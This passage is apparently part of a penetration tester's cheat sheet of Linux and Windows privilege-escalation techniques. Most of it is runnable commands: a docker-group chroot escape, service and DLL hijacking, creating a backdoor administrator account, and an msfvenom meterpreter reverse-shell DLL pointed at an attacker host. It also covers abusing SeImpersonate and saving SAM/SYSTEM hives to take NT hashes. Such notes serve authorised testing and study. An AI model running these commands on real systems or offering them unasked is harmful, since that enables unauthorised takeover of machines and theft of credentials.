             - `function ls() { printf 'it works'; } && export -f ls`
- capabilities
    - `getcap -r / 2>/dev/null | grep -iE 'set[ug]id'`
- if current user is in the docker group -> `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- linux specific tool: `./unix-privesc-check standard > upc_output.txt`

#### windows privilege escalation
- try log in on other hosts with the current credential OR using NTLM relay
    - current user can be local admin there
- check smb shares
- search exe being executed by privilege user:
    - show services exe paths
        * need interative logon (rdp, physical), but can work in reverse shell
        * `Get-CimInstance -ClassName win32_service | Select PathName,StartName | findstr /vi "windows\system32"`
            - `Get-CimInstance -ClassName win32_service | Select PathName,Name,State,StartMode,StartName | Where-Object { $_.PathName -match "Target" }`
    - check if the executable can be overwrited
        * `icacls C:\path\file.exe`
            - F: Full access
            - M: Modify access
            - RX: Read and execute access
            - R: Read-only access
            - W: Write-only access
            - AD: Append data/add subdirectory
        * 1) The file owner can always modify the permissions to be able to access it
        * 2) administrator can change file owner
    - check if there is unquoted spaces in the service path
        - ... | findstr /vi "\"""
        - if the path is **C:\Program Files\My Program\My service\service.exe** and it is **unquoted**, windows will try in order:
            * C:\Program.exe
            * C:\Program Files\My.exe
            * C:\Program Files\My Program\My.exe
            * C:\Program Files\My Program\My service\service.exe
    - check if there is a DLL that can be hijacked
        - 1) download the services, suspicious softwares, AV to a test environment
        - 2) open Process Monitor (procmon)
        - 3) add the filters (Ctrl+L):
            * Operation is CreateFile
            * Result is NAME NOT FOUND
            * Process Name contains target.exe
    - write the new exe/dll
        - A **possibility** is to create a user:
            * `net user userA pass123! /add`
            * `net localgroup administrators userA /add`
        - But for it the escalated user needs to be **admin**, so generate a shell is more guaranteed
            * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ATTACKER LPORT=$PORT -f dll -o a.dll`
        * mingw gcc needs **--shared** to generate dll
        * `move` command can allows to change the exe location even if it the file is in use
    - restart service 
        * `net stop ServiceName ; net start ServiceName`
        * `Restart-Service ServiceName -Force`
        * restart the machine (for auto StartMode services)
- try abuse privileges
    - check user privileges: `whoami /priv`
    - SeImpersonatePrivilege, SeBackupPrivilege, SeRestorePrivilege, SeAssignPrimaryToken, SeLoadDriver, SeDebug may lead to privilege escalation
    - abuse the privilege SeImpersonatePrivilege
        * https://github.com/itm4n/PrintSpoofer
        * https://github.com/CCob/SweetPotato
    - abusing SeBackupPrivilege
        * get NT hashes saving the SAM/SYSTEM with reg save
- (Active Directory) check ACLs misconfiguration